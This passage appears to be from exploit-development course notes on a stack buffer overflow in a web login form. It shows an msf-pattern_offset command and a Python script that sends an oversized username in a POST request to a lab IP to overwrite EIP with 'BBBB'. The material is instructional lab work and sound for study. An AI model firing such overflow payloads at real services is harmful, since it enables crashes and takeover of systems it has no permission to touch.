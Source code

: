 

```
msf-pattern_offset -l 800 -q  <number of EIP>
```

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption><p>oFFSET </p></figcaption></figure>

```python
#!/usr/bin/python
import socket

inputBuffer ="A"*780+'BBBB'+'C'*(800-780-4)

payload = "username=" + inputBuffer + "&password=A"
req=""
req = "POST /login HTTP/1.1\r\n"
req += "Host: 192.168.1.5\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Referer: http://192.168.1.5/login\r\n"
req += "Connection: close\r\n"
req += "Content-Type: application/x-www-form-urlencoded\r\n"
req += "Content-Length: "+str(len(payload))+"\r\n"
req += "\r\n"
req += payload

print req
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.5", 80))
s.send(req)
print s.recv(1024)
s.close()
```

<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

